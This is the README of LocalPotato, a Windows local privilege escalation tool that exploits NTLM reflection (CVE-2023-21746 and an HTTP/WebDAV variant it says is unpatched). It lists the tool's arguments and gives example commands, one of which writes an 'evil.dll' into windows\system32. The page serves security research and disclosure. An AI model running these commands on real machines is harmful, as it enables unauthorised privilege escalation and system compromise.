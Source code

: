 # LocalPotato
Another Local Windows privilege escalation using a new potato technique ;)

The LocalPotato attack is a type of NTLM reflection attack that targets local authentication. This attack allows for arbitrary file read/write and elevation of privilege. 

**NOTE: The SMB scenario has been fixed by Microsoft in the January 2023 Patch Tuesday with the [CVE-2023-21746](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2023-21746). If you run this exploit against a patched machine it won't work.** 

More technical details at --> https://www.localpotato.com/localpotato_html/LocalPotato.html

**NOTE2: The HTTP/WebDAV scenario is currently unpatched (Microsoft decision, we reported it) and works on updated systems.** 
More technical details at --> https://decoder.cloud/2023/11/03/localpotato-http-edition/



## Usage

```

         LocalPotato (aka CVE-2023-21746 & HTTP/WebDAV)
         by splinter_code & decoder_it


Mandatory Args:
SMB:
        -i Source file to copy for SMB
        -o Output file for SMB - do not specify the drive letter
HTTP:
        -r host/ip for HTTP
        -u target URL for HTTP

Optional Args:
-c CLSID (Default {854A20FB-2D44-457D-992F-EF13785D2B51})
-p COM server port (Default 10271)

Examples:
- SMB:
         LocalPotato.exe -i c:\hacker\evil.dll -o windows\system32\evil.dll
- HTTP/WebDAV:
         LocalPotato.exe -r 127.0.0.1 -u /webdavshare/potato.local
```

## Demo

- SMB:
![image](https://user-images.githubusercontent.com/19797064/218135881-af046286-c299-4f08-856b-2265adc46e64.png)

- HTTP/WebDAV
![image](https://github.com/decoder-it/LocalPotato/assets/19797064/100db270-e1e2-44db-ae54-91c3a7cb9b15)


## Authors: 
- [@decoder_it](https://twitter.com/decoder_it)
- [@splinter_code](https://twitter.com/splinter_code)
